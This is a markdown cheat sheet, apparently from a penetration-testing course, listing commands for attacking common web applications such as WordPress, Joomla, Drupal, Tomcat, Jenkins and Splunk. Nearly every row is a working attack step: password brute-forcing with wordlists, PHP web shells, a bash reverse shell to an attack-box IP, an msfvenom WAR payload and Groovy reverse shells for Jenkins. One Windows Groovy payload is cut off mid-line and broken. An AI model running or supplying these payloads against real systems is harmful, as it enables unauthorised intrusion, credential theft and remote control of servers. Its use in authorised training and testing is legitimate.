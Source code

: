 # 80 - Common Applications

| Command                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                    |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                                                                                                                                                                                                         | Opens the `/etc/hosts` with `vim` to start adding hostnames                                                                                                                                                                    |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`                                                                                                                                                       | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)                                                                       |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web\_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)                                           |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr\_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)    |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |
| [reverse\_shell\_splunk](https://github.com/0xjpuff/reverse\_shell\_splunk)                                                                                                                                                                   | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |
|                                                                                                                                                                                                                                               |                                                                                                                                                                                                                                |
|                                                                                                                                                                                                                                               |                                                                                                                                                                                                                                |
